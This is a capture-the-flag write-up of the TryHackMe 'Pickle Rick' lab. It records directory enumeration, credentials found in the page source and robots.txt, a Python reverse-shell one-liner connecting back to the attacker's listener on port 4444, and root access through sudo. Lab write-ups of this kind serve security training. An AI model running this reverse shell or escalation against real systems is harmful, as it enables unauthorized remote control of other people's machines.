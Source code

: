 # Pickle Rick
+ Link: https://tryhackme.com/r/room/picklerick
+ Type: Challenge

+ Target IP Address: 10.10.162.36
+ AttackBox IP Address: 10.10.139.230

## Tools
+ NMAP
+ Gobuster
+ enum4linux
+ Dirb
+ Netcat

## External Resources
+ https://stawm.design.blog/2020/05/17/pickle-rick-thm-writeup/
+ https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Task 01 | Pickle Rick
1. `nmap -sV 10.10.162.36` revealed 2 open ports with the services: OpenSSH and Apache.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room05/Screenshots/01.png)
  
2. Went to http://10.10.162.36 to inspected its source code. Found a username "R1ckRul3s".
3. `gobuster dir -u http://10.10.162.36 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt` revealed a few directories: "/assets" and "/robots".  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room05/Screenshots/02.png)
  
4. Looked through the found directories. http://10.10.162.36/robots.txt lead to a possible password "Wubbalubbadubdub".
5. I tried `dirb http://10.10.162.36`, `enum4linux -a 10.10.162.36`, and Gobuster with different word lists, but found nothing noteworthy.
6. After trying `gobuster dir -u http://10.10.162.36 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -x html,php` I found a few more directories: "/login.php" and "/portal.php".  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room05/Screenshots/03.png)
  
7. Both of the newly discovered webpages went to the same login page. So, I tried out the username and password and got access. Upon logging into "Rick Portal" I found that most webpages were locked, except a place where you can input commands.
8. While I could `ls`, the `cat`command was disabled. So, I tried to see if there was a way I could gain a reverse shell.
9. Using the command `which python3` I was able to comfirm that the target machine did have Python3 on it.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room05/Screenshots/04.png)
  
10. I started up a Netcat listener with `nc -lvp 4444` on the AttackBox.
11. On the "Command Panel" I entered a modified command from pentestmonkey, `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.139.230",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`, to start the reverse shell. Sucess!  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room05/Screenshots/05.png)
  
12. On ther terminal with the listener, I ran `ls` to see what's in the directory and `cat Sup3rS3cretPickl3Ingred.txt` to get ingredient #1.
13. After looking around in the file system, I found a user directory labeled "rick" and changed to it.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room05/Screenshots/06.png)
  
14. `ls` to see what's in the directory and `cat "second ingredients"` to get ingredient 2.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room05/Screenshots/07.png)
  
15. `whoami` and `sudo -l` to see what commands the "www-data" user could execute.
16. `sudo bash -i` to get root access.
17. Moved to /root, `ls` and found the final ingredient.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room05/Screenshots/08.png)
  
## Learned
+ Gobuster's `-x` flag, which allows someone to search for specific file extensions. Can be used to search for common website file extensions (i.e. html and php).
+ A website for reverse shell commands, https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet.